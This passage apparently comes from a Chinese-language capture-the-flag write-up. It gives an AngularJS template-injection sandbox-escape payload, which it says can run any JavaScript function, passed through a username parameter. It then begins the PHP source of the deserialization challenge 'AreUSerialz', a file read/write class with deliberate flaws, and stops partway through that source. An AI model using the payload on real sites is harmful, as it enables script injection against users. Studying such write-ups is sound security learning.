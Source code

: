 ```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}} 
```

后面的alert(1)那里可以换成任意js函数。不过这题我们不需要，直接构造就可以了：

```
?username={{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}} 
```

## 2020-网鼎杯-青龙组-Web-AreUSerialz

题目：

```
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }
```
